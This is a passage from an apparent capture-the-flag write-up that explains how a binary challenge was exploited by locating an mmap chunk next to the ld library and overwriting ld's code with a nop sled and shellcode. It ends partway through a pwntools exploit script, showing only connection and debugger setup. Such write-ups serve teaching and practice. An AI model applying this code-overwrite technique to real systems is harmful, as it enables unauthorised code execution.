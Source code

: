 We realized that when we only ask for a small chunk of memory from mmap, we are always given a chunk right before the ld library:

![Mmaps allocates a chunk right before ld](images/ld_chunk.png)

So, even though we couldn't figure out another way to leak the binary's text segment, we can do the same thing using the ld library! Following the same method as before, we read the allocated chunk from the logger, calculated ld's code segment and overwrote it with many nops and then our shellcode. In particular, we stepped through the program's execution flow using gdb to see exactly which code address from the linker is called when the program exits and started overwriting from there.

We run the exploit again on the remote host and this time we got the flag:

![](images/flag.png)

Here is the full exploit script:
```
from pwn import *
import time

exe = context.binary = ELF('./chall')
context.terminal = ['tmux', 'new-window']

host = args.HOST or 'challs.xmas.htsp.ro'
port = int(args.PORT or 2003)

def local(argv=[], *a, **kw):
    return process([exe.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    r = connect(host, port)
    return r

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.REMOTE:
        return remote(argv, *a, **kw)
    else:
        if args.PWNDBG:
            gs = '''
            init-pwndbg
            brva 0x148f
            brva 0x1340
            brva 0x1a28
            brva 0x14a8
            brva 0x13d9
            c
            '''
```